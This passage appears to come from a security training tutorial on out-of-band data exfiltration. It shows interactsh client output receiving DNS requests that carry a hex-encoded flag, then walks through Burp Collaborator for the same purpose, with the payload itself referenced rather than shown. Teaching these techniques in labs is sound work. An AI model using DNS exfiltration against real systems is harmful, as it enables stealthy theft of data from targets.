 After submitting the payload, a handful of DNS requests should show up in the web app. Clicking on the most recent one will show further details and in this case the (hex-encoded) flag which we exfiltrated!

![image](2MYXUFNRQviA.png)

Alternatively, there is a command-line variant that you can download from the GitHub releases [page](https://github.com/projectdiscovery/interactsh/releases/). Here's an example of the same payload (running on Linux).

```shell
./interactsh-client

    _       __                       __       __
   (_)___  / /____  _________ ______/ /______/ /_
  / / __ \/ __/ _ \/ ___/ __ '/ ___/ __/ ___/ __ \
 / / / / / /_/  __/ /  / /_/ / /__/ /_(__  ) / / /
/_/_/ /_/\__/\___/_/   \__,_/\___/\__/____/_/ /_/ 1.0.7

                projectdiscovery.io

[WRN] Use with caution. You are responsible for your actions
[WRN] Developers assume no liability and are not responsible for any misuse or damage.
[INF] Listing 1 payload for OOB Testing
[INF] cegpcd2um5n3opvt0u30yep71yuz9as8k.oast.online
[cegpcd2um5n3opvt0u30yep71yuz9as8k] Received DNS interaction (A) from <SNIP> at 2022-12-20 11:02:24
[cegpcd2um5n3opvt0u30yep71yuz9as8k] Received DNS interaction (A) from <SNIP> at 2022-12-20 11:02:24
[<SNIP>cegpcd2um5n3opvt0u30yep71yuz9as8k] Received DNS interaction (A) from <SNIP> at 2022-12-20 11:02:24
[<SNIP>cegpcd2um5n3opvt0u30yep71yuz9as8k] Received DNS interaction (A) from <SNIP> at 2022-12-20 11:02:25
[<SNIP><SNIP>cegpcd2um5n3opvt0u30yep71yuz9as8k] Received DNS interaction (A) from <SNIP> at 2022-12-20 11:02:25
[<SNIP><SNIP>cegpcd2um5n3opvt0u30yep71yuz9as8k] Received DNS interaction (A) from <SNIP> at 2022-12-20 11:02:25

```

## Burp Collaborator

[Burpsuite Professional](https://portswigger.net/burp/pro) has a built-in OOB interactions client called `Burp Collaborator`. It also works on both Linux and Windows but is of course paid. You can launch the client through the `Burp > Burp Collaborator Client` menu.

![image](PmWnxomvyl6q.png)

Once the client has launched, you can copy your domain to the clipboard with the highlighted button.

![image](CzLykTHOsUIC.png)

To demonstrate, we used the generated domain with the payload from above slightly modified to exfiltrate the flag. Burp Collaborator won't let us do `@[email protected]`, so this payload sends two requests instead ( `@A.xxx.burpcollaborator.net` and `@B.xxx.burpcollaborator.net`).
